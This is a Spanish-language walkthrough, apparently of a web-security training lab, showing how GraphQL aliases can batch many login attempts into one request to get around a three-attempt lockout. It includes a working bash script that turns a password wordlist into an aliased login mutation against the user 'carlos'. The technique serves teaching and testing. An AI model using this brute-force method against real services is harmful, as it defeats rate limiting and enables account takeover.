

## LAB



Al interceptar las solicitudes veremos en estas un endpoint `graphQL/v1` en el que podemos hacer consultas de inspección.



Al hacer click derecho y luego seleccionar `set instrospection query`



Ahora para poder separar por consultas y querys, al seleccionar la opción de `Save GraphQL queries to site map`. Luego vemos que podemos ver una query y al enviar la solicitud, se tiene toda el listado de contenido.



Vemos que tenemos una query para realizar el login.





Cuando enviamos 3 solicitudes de login seguidas, vemos que el servidor nos bloquea por un 1 minuto. Podemos cambiar la query y quitar las variables y al enviar podemos observar que este es valido



Lo que se necesita es enviar 100 solicitudes para poder encontrar la contraseña para el usuario carlos. Pero el impedimento de que al tercer intento se bloque al usuario, así que usando la query podemos agregar otras mas en la misma solicitud. 



Usando `Alias` podemos agregar mas solicitudes y al enviar vemos que efectivamente estos son aceptados por el servidor.



Generar 100 y usando las worldist podemos generar para neustra solicitud.

```c
#!/bin/bash

if [ $# -lt 1 ]; then
    echo "Uso: $0 <archivo_passwords> [output_file]"
    exit 1
fi

PASSWORD_FILE=$1
OUTPUT_FILE=${2:-"payload.txt"}

if [ ! -f "$PASSWORD_FILE" ]; then
    echo "[-] Archivo no encontrado: $PASSWORD_FILE"
    exit 1
fi

echo 'mutation login{' > "$OUTPUT_FILE"

i=1
while IFS= read -r password || [ -n "$password" ]; do
    [ -z "$password" ] && continue
    printf '  bruteforce%d: login(input: { username: "carlos", password: "%s" }) {\n\ttoken \n\tsuccess \n}\n' "$i" "$password" >> "$OUTPUT_FILE"
    ((i++))
done < "$PASSWORD_FILE"

echo '}' >> "$OUTPUT_FILE"

echo "[+] Generadas $((i-1)) aliases → $OUTPUT_FILE"

```

Ahora al enviar podemos ver tenemos la credencial valida para el usuario carlos.





